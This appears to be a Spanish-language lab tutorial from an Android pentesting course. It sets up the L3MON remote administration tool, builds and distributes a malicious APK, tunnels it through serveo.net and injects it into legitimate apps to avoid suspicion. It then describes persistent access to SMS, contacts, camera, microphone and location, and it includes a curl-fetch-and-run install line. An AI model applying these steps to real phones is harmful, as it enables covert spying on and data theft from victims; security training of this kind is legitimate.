








# 🍋 L3MON - Framework de Administración Remota Android

## 🎯 ¿Qué es L3MON?

**L3MON** es una herramienta de código abierto utilizada para pruebas de penetración (pentesting) en dispositivos móviles. En concreto, está diseñada para la **administración remota y explotación de dispositivos Android**.

> 💡 Ventaja Principal:  A diferencia de Metasploit, L3MON ofrece una interfaz web intuitiva y funcionalidades específicas para control persistente de dispositivos Android con acceso en tiempo real a múltiples recursos del dispositivo.

## ✨ Características Principales de L3MON

| Característica | Descripción |
| --- | --- |
| 🌐 Interfaz Web Amigable | L3MON proporciona una interfaz web que facilita la administración y monitoreo de los dispositivos comprometidos |
| 🎮 Control Remoto | Permite ejecutar comandos remotamente en el dispositivo comprometido |
| 📊 Recopilación de Datos | Puede extraer información como contactos, mensajes, registros de llamadas y ubicación del dispositivo |
| 📸 Captura de Imágenes y Audio | Puede tomar fotos y grabar audio utilizando las cámaras y micrófonos del dispositivo |
| 📍 Geolocalización | Ofrece la capacidad de rastrear la ubicación del dispositivo en tiempo real |
| 📱 Gestión de Aplicaciones | Permite instalar o desinstalar aplicaciones en el dispositivo comprometido |

## 🔍 Usos en Pentesting

L3MON se puede usar en escenarios de pruebas de penetración para evaluar la seguridad de dispositivos móviles y las redes en las que se encuentran:

| Uso | Descripción |
| --- | --- |
| 🔒 Pruebas de Seguridad en Apps | Evaluar la seguridad de las aplicaciones móviles desarrolladas por una organización |
| ⚔️ Simulación de Ataques | Simular ataques para ver cómo se comportan los dispositivos móviles ante ciertas amenazas |
| 🐛 Análisis de Vulnerabilidades | Identificar y explotar vulnerabilidades en dispositivos Android |
| 📋 Evaluación de Políticas de Seguridad | Comprobar si las políticas de seguridad implementadas en dispositivos móviles son efectivas |

## 💾 Instalación de L3MON

> 🖥️ Entorno Recomendado:  Vamos a instalarlo en la VM `debian12_dwm.ova` con red en modo Puente.

### 🌐 Paso 1: Configurar IP Fija (Opcional pero Recomendado)

Antes de instalarlo, normalmente L3MON debería instalarse en un servidor con IP fija:

```bash
sudo nano /etc/network/interfaces
```

Añadir la configuración:

```bash
auto eth0
iface eth0 inet static
    address 192.168.10.100
    gateway 192.168.10.1
```

Reiniciar el servicio de red:

```bash
sudo systemctl restart networking.service
```

### ☕ Paso 2: Instalar Java 8

Primero, editamos el `sources.list` para añadir los repositorios `non-free`:

```bash
sudo nano /etc/apt/sources.list
```

Añadir en la línea de Debian:

```bash
deb http://deb.debian.org/debian/ bookworm main non-free non-free-firmware
```

Actualizar paquetes:

```bash
sudo apt update
```

Instalar Java 8:

```bash
sudo apt install nvidia-openjdk-8-jre
```

### 🛠️ Paso 3: Instalar APKTool

Ejecutar la siguiente línea para descargar APKTool (puede que tengamos que ejecutar como root si da error):

```bash
source <(curl -fsSL https://raw.githubusercontent.com/efxtv/npm/main/apktool/apktool-kali-ubuntu.sh)
```

Configurar Java 8 como versión por defecto:

```bash
export JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java" 3
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/java-8-openjdk-amd64/bin/javac" 3
sudo update-alternatives --config java
```

> ⚠️ Importante:  Seleccionar Java 8 cuando se presente el menú de opciones.

### 📦 Paso 4: Instalar Node.js y NPM

```bash
sudo apt install nodejs npm -y
```

### 📥 Paso 5: Clonar el Repositorio de L3MON

```bash
git clone https://github.com/efxtv/L3MON.git
```

O descomprimir el archivo de los recursos dados si lo tienes localmente.

### 📂 Paso 6: Entrar en el Directorio de L3MON

```bash
cd L3MON
```

### 🔧 Paso 7: Instalar PM2

PM2 es un gestor de procesos para Node.js:

```bash
sudo npm install pm2 -g
```

### 📚 Paso 8: Instalar Dependencias

```bash
npm install
npm audit fix
npm audit
```

### 🚀 Paso 9: Iniciar el Servidor de L3MON

```bash
pm2 start index.js
```

### 🔐 Paso 10: Editar Usuario y Contraseña

```bash
nano maindb.json
```

> ⚠️ Nota:  La contraseña debe estar en  MD5 .
>        Ejemplo: `SegInf` = `171a952b138839fc0261d0448e48984e`

Después de editar, reiniciar L3MON:

```bash
pm2 stop index
pm2 start index.js
```

### 🌐 Paso 11: Acceder a la Interfaz Web

Acceder al entorno a través de:

> `http://localhost:22533`

O desde otra máquina:

> `http:// :22533`

### 🔄 Paso 12: Arranque Automático al Iniciar Sistema (Opcional)

```bash
sudo env PATH=$PATH:/usr/bin /usr/local/lib/node_modules/pm2/bin/pm2 startup systemd -u tecnico --hp /home/tecnico
pm2 startup
pm2 restart all
```

> 💡 Tip:  Esto hará que L3MON se inicie automáticamente cada vez que arranque el servidor.

## 📱 Creando la APK Maliciosa

### 🔨 Paso 1: Acceder al APK Builder

Para crear la APK, una vez dentro de la plataforma web, nos vamos al menú **APK Builder**.

Ponemos nuestra IP del servidor:



Y pulsamos en **Build**.

### 📥 Paso 2: Localizar la APK Generada

Cuando termine, **NO lo descargamos desde la interfaz web**.


Lo tendremos en la ruta de L3MON en la carpeta `assets/webpublic`:

```bash
cd /home/tecnico/L3MON/assets/webpublic
ls -la
```



Con el nombre `build.s.apk`.

### 🌐 Paso 3: Crear Servidor Web para Distribución

Creamos una carpeta para alojar las APKs:

```cmd
mkdir ~/web
```

Copiamos la APK con un nombre descriptivo:

```bash
cp build.s.apk ~/web/lemon.apk
```

Iniciamos un servidor web simple:

```bash
cd ~/web
python3 -m http.server 8000
```

> 🌐 URL de Descarga:  `http:// :8000/lemon.apk`

### 🔌 Paso 4: Crear APK para Conexión por Serveo

Podemos crear otra APK para conexión por Serveo (túnel SSH):



Copiar la APK generada:

```bash
cp build.s.apk ~/web/lemon_serveo.apk
```

### 🔧 Paso 5: Descompilar e Inyectar en Otra APK (Opcional)

Como vimos en la práctica anterior de APKTool, podemos descompilar la APK e incluir el código en otra APK legítima:

```bash
apktool d lemon_serveo.apk
```

> 💡 Técnica Avanzada:  Esto permite ocultar el payload de L3MON dentro de una aplicación legítima para evitar sospechas.

## ⚔️ Ejecutando el Ataque

### 📲 Paso 1: Instalar la APK en el Dispositivo Objetivo

Desde un móvil Android, descargamos e instalamos la APK:

> `http://192.168.68.150:8000/lemon.apk`

Una vez instalada y abierta, el dispositivo aparece en la zona de **Devices**:



> ⚠️ Importante:  Es necesario  dar a la aplicación permiso de acceso a todos los recursos  (ubicación, cámara, micrófono, almacenamiento, contactos, etc.).

En otros casos, podemos meter el payload en otra aplicación que pida dar permisos al instalarse de forma legítima.

### 🌐 Paso 2: Conexión por Serveo (Si Aplica)

Para conectar por Serveo, debemos crear antes el túnel en la VM de Debian:

```bash
ssh -R 4444:localhost:22222 serveo.net
```



> 🔄 Persistencia:  Ambos ataques (conexión directa y Serveo) son persistentes. Si se apaga el terminal o el dispositivo, al encenderlo vuelve a conectarse automáticamente.

## 🎮 Accediendo al Contenido del Dispositivo

Una vez conectado el dispositivo, podemos acceder a todo su contenido desde la interfaz web:



### 📋 Funcionalidades Disponibles

| Función | Descripción | Disponibilidad |
| --- | --- | --- |
| 📍 Location | Geolocalización en tiempo real | ✅ Siempre disponible |
| 📞 Call Logs | Registro de llamadas (entrantes, salientes, perdidas) | ✅ Siempre disponible |
| 💬 SMS | Mensajes de texto enviados y recibidos | ✅ Siempre disponible |
| 👥 Contacts | Lista completa de contactos | ✅ Siempre disponible |
| 📂 Files | Sistema de archivos completo | ✅ Siempre disponible |
| 📸 Camera | Captura de fotos (cámara frontal/trasera) | ✅ Siempre disponible |
| 🎤 Microphone | Grabación de audio | ✅ Siempre disponible |
| 📱 Installed Apps | Lista de aplicaciones instaladas | ✅ Siempre disponible |
| 📋 Clipboard | Contenido del portapapeles | ⚠️ Depende del dispositivo |
| 🔔 Notifications | Notificaciones del sistema | ⚠️ Depende del dispositivo |

> 💡 Nota:  Sólo  Clipboard  y  Notifications  pueden no estar accesibles, ya que dependen del dispositivo y versión de Android. En todo caso, el hecho de poder acceder a los archivos del dispositivo permite descargarlos y luego analizarlos.

### 📍 Ejemplo: Geolocalización en Tiempo Real

Por ejemplo, podemos ver la ubicación GPS del dispositivo en un mapa interactivo:



## 🔍 Análisis de Aplicaciones Instaladas

**Installed Apps** puede ser muy importante ya que podemos revisar si tiene instalada alguna aplicación que tenga vulnerabilidades conocidas.



### 🔎 Búsqueda de Vulnerabilidades

Podemos revisar cada aplicación en bases de datos de exploits:

> 🔗 Exploit Database:   https://www.exploit-db.com/

### 📊 Proceso de Análisis

* Obtener la lista de aplicaciones instaladas desde L3MON

* Identificar versiones de cada aplicación

* Buscar exploits conocidos en Exploit-DB

* Buscar CVEs asociadas a esas aplicaciones

* Evaluar si se pueden explotar en el contexto actual

> 💡 Ejemplo:  Si encontramos una versión antigua de WhatsApp, podemos buscar vulnerabilidades conocidas que permitan interceptar mensajes o realizar otras acciones maliciosas.

## ⚖️ Consideraciones Éticas y Legales

> ⚠️ ADVERTENCIA LEGAL:
>
>          L3MON debe usarse  SOLO  en entornos de prueba autorizados
>          Usar esta herramienta sin consentimiento explícito es  ILEGAL
>          El acceso no autorizado a dispositivos ajenos constituye un  delito penal
>          Obtén siempre  autorización escrita  antes de realizar pruebas de penetración
>          Usa esta información  SOLO  con fines educativos y de seguridad

## 📊 Comparación: L3MON vs Metasploit

| Característica | L3MON | Metasploit |
| --- | --- | --- |
| Interfaz | 🌐 Web (muy intuitiva) | 💻 CLI (línea de comandos) |
| Geolocalización | ✅ En tiempo real con mapa | ⚠️ Manual, sin visualización |
| Gestión Múltiples Dispositivos | ✅ Panel centralizado | ❌ Sesiones individuales |
| Captura de Fotos/Audio | ✅ Directo desde la web | ✅ Sí, pero más complejo |
| Persistencia | ✅ Automática | ⚠️ Manual |
| Facilidad de Uso | ⭐⭐⭐⭐⭐ | ⭐⭐⭐ |
| Flexibilidad | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| Mejor Para | Control persistente, monitoreo | Explotación avanzada, post-explotación |

## 📚 Navegación

      [
        ← Anterior: Ngrok y Serveo
      ]([[02 - MODULOS/Prácticas (PoCs)/Pentesting en Android/04 - Exposición de Puertos y Port Forwarding con Ngrok y Serveo|04 - Exposición de Puertos y Port Forwarding con Ngrok y Serveo]])

      [
        → Siguiente: Ofuscación de APKs
      ]([[02 - MODULOS/Prácticas (PoCs)/Pentesting en Android/06 - Técnicas de Ofuscación y Detección en Android|06 - Técnicas de Ofuscación y Detección en Android]])

      [
        ↑ Volver al Índice
      ]([[02 - MODULOS/05 - Prácticas (PoCs)|Índice de Prácticas]])
